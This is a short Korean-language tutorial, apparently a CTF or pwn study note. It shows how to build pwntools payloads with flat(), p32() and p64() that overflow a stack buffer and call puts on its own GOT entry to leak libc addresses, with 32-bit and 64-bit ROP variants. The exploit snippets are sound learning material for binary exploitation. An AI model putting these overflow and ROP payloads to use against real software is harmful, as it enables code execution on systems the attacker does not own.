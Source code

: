# payload 로 libc base 주소 계산

### flat() 함수를 이용하면 libc.address 변수를 활용해서 payload 를 간단하게 만들 수 있다.
#### flat() 함수를 이용하면 little endian 문자로 일괄 변환해 준다.
```python
>>> flat("AAAA", 0xdeadbeef, "BBBB")
b'AAAA\xef\xbe\xad\xdeBBBB'
>>> 
```

#### flat() 함수를 이용한 payload 작성
```python
payload = flat(
    'A' * 76,
    elf.plt['puts'],
    elf.sym['vuln_func'],
    elf.got['puts']
)
```

#### p32()와 p64()를 이용한 payload 작성
```python
payload = b"A" * 76
payload += p32(puts_plt)
payload += p32(elf.symbols["vuln_func"])
payload += p32(puts_got)
```


### 32비트에서 puts.got 주소 leak하는 payload 작성
#### puts(puts.got) 함수 payload 작성 (calling convention 참고 작성)
##### 출력되는 puts.got 는 libc 에서의 puts offset 이다.
```python
# 스택 구성 buf[72] + sftp[4] + ret[4] 일 때,
payload = flat(
    'A' * 76,
    elf.plt['puts'],
    elf.sym['vuln_func'],    # ret 주소 위치(ROP할 때는 pr, ppr, pprt 등 가젯 활용)
    elf.got['puts']
)
```


### 64비트에서 puts.got 주소 leak하는 payload 작성
#### puts(puts.got) 함수 payload 작성 (calling convention 참고 작성)
##### 출력되는 puts.got 는 libc 에서의 puts offset 이다.
```python
# buf[64] + sftp[8] + ret[8]
payload = flat(
    b"A" * 72,
    pop_rdi_ret,
    elf.got['puts'],
    elf.plt['puts'],
    elf.sym['vuln_func'],    # ret 주소 위치(ROP할 때는 pr, ppr, pprt 등 가젯 활용)
)
```

